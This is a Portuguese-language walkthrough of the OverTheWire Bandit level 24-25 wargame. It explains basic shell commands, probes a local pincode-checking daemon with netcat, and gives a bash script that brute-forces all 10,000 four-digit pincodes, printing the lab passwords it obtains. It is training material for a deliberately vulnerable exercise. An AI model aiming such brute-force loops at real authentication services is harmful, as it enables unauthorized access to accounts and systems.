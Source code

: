 # [Bandit Level 24-25](https://overthewire.org/wargames/bandit/bandit25.html)

## Descrição original
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Introdução
O objetivo desse level é enviar o password do level atual(bandit24) e um pincode numérico de 4 dígitos para a porta 30002. O próprio desafio informa que a única forma de encontrar esse pincode é realizar todas as 10000 combinações possíveis, o que é chamado de brute-force.

## Comandos utilizados:

```
ssh: permite que você acesse e controle um computador remoto de forma segura, como se estivesse interagindo diretamente com a máquina.

-p: determina em qual porta a conexão com o servidor será realizada.
```

```
ls: lista o conteúdo do diretório especificado.

-l: lista os arquivos e diretórios de um determinado diretório em formato de lista incluindo detalhes como permissões, grupo e tamanho.
```

```
whoami: exibe o nome do usuário que está atualmente logado no terminal ou no sistema operacional.
```
```
echo: exibe texto ou variáveis na saída padrão (normalmente o terminal).
```

```
tee: usado para ler a entrada padrão (normalmente vinda de um comando ou script) e escrever essa entrada tanto na saída padrão (geralmente o terminal) quanto em um ou mais arquivos especificados.
```

```
cat: exibe o conteúdo de um ou mais arquivos de texto diretamente no terminal.
```

```
vim: é um editor de texto altamente configurável e poderoso, amplamente utilizado em sistemas Unix-like, como Linux. 

:wq (Write and Quit): Ao combinar os comandos :w e :q, você pode salvar as alterações no arquivo e sair do Vim ao mesmo tempo.
```

```
chmod x: adiciona permissão de execução para um arquivo. 
```

```
nc: abreviação de "netcat", é uma ferramenta de linha de comando que é frequentemente usada para transferência de dados, conexões de rede e teste de conectividade em ambientes de rede
```

## Resolução

```
┌──(lufeltz㉿lufeltz)-[~]
└─$ ssh bandit24@bandit.labs.overthewire.org -p 2220
```

Logo após iniciar essa conexão com o **ssh** informo o password obtido no desafio anterior.

```
bandit24@bandit.labs.overthewire.org's password: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

```console
bandit24@bandit:~$ whoami
bandit24
```

Realizado o login faço o envio do password do **bandit24** para a porta 30002:


```console
bandit24@bandit:~$ echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Fail! You did not supply enough data. Try again.
```

A mensagem de retorno diz eu não informei dados suficientes. Vamos tentar então com uma mensagem e um pincode separados por um espaço:

```console
bandit24@bandit:~$ echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar" 1234 | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
_
```

Dessa vez a mensagem informada é que o pincode está errado. Agora só preciso criar um script para realizar o brute-force:

**vim /tmp/brute-force25.sh**
```console
#!/bin/bash

pass="VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar"
port=30002

for pincode in {0..10000}; do
    printf "%s %04d\n" "$pass" "$pincode"
done | nc localhost "$port" | tee /tmp/resultados.txt

echo "resultados salvos em /tmp/resultados.txt"
```

Nesse script utilizo um loop **for** para redirecionar todos os **10.000** pincodes de **0000** à **10000** para uma conexão com a porta **30002.** Após isso faço outro direcionamento, dessa vez das tentativas de conexão utilizando o comando **tee** que direciona a saída para o arquivo **/tmp/resultados.txt** e também para saída padrão(terminal).

Antes de executá-lo altero as permissões para permitir a execução desse arquivo:

```console
bandit24@bandit:~$ chmod +x /tmp/brute-force25.sh
```

```console
bandit24@bandit:~$ /tmp/brute-force25.sh
...
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
resultados salvos em /tmp/resultados.txt
```
Após a execução do script **/tmp/brute-force25.sh**(pode ser necessário executar mais de uma vez, pois às vezes o servidor trava) o password é mostrado.

Dessa forma encontro o password do próximo level **bandit25**:

    p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Por fim saio do usuário atual por meio do comando exit.

```console
bandit24@bandit:~$ exit
logout
Connection to bandit.labs.overthewire.org closed.
```
